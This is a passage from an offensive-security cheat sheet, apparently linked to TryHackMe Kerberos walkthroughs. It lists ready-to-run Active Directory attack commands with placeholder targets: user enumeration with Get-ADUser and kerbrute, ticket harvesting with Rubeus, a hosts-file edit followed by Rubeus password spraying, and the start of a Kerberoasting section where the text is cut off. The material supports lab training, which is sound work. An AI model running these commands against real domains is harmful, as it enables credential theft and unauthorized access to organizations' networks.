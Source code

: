 **Victim(powershell)**

```
 Get-ADUser -Filter * -SearchBase "OU=THM,DC=THMREDTEAM,DC=COM"
```

## Enumeration w/ Kerbrute

This will brute force user accounts from a domain controller using a supplied wordlist

**Example**

[#enumeration-w-kerbrute](../../walkthroughs/tryhackme/attacking-kerberos.md#enumeration-w-kerbrute "mention")

**Kali**

```
./kerbrute userenum --dc $DOMAINCONTROLLER -d $DOMAIN $USERLIST.txt
```

## Harvesting & Brute-Forcing Tickets w/ Rubeus

**Example**

[#harvesting-and-brute-forcing-tickets-w-rubeus](../../walkthroughs/tryhackme/attacking-kerberos.md#harvesting-and-brute-forcing-tickets-w-rubeus "mention")

Harvest tickets with Rubeus

**Victim**

```
Rubeus.exe harvest /interval:30
```



Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command. This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

**Victim**

```
echo $VICTIM $DOMAINCONTROLLERHOSTNAME >> C:\Windows\System32\drivers\etc\hosts
Rubeus.exe brute /password:$PASSWORD /noticket
```



## Kerberoasting&#x20;

### Kerberoasting #1 - Rubeus&#x20;

**Example**

[#kerberoasting-1-rubeus](../../walkthroughs/tryhackme/attacking-kerberos.md#kerberoasting-1-rubeus "mention")
